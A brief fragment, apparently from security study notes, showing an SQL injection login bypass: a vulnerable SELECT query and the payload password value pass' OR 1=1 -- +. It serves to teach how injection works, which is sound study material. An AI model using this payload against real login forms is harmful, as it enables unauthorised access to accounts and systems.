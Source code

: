 -------------SQL Injection---------------------

Authentication Bypass Variant 1

query:
SELECT * FROM users WHERE username='admin' AND password='pass'

payload:
username:admin
password:pass' OR 1=1 -- +

NOTE: + is similar to space